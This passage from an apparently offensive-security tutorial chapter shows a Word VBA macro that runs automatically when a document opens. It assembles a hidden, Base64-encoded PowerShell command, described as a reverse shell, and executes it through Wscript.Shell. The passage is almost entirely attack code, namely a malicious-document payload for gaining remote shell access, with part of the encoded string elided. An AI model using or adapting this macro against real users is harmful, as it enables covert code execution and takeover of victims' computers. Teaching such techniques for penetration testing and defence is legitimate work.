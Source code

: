 ![](./img/Chapter13/16.png)

Having split the Base64 encoded string into smaller chunks, we will update the macro to include the chunks of the PowerShell script that create a reverse shell

```js
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Cmd As String
    Cmd = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Cmd = Cmd + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    Cmd = Cmd + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
    Cmd = Cmd + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
    Cmd = Cmd + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
    Cmd = Cmd + "wBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcAB"
    Cmd = Cmd + "vAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9A"
    Cmd = Cmd + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQ"
    Cmd = Cmd + "AaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAU"
    Cmd = Cmd + "wB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQB"
    Cmd = Cmd + "tAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9A"
    ...
    Cmd = Cmd + "CcAJwA4AFYAYwBQAE4AcABUAGQAYwBlADgANQBvAGMAagBMAGU"
    Cmd = Cmd + "AWAB1ADMAdQB7ADEAfQBrAHcAeABxACcAJwArACcAJwAxAFgAc"
    Cmd = Cmd + "gBFADAAUgA3AGIAcABLAFEASAB6AGMAVwBwAGIAMABaAHAAQwB"
    Cmd = Cmd + "YAHgANAA0AGYAUwB2AGoARQAyAG4AawBUADgAcgBZAHEAdgBvA"
    Cmd = Cmd + "QBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAOwA"
    Cmd = Cmd + "kAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0A"
    Cmd = Cmd + "GkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQ"
    Cmd = Cmd + "AKAAkAHMAKQA7AA=="
    CreateObject("Wscript.Shell").Run Cmd
```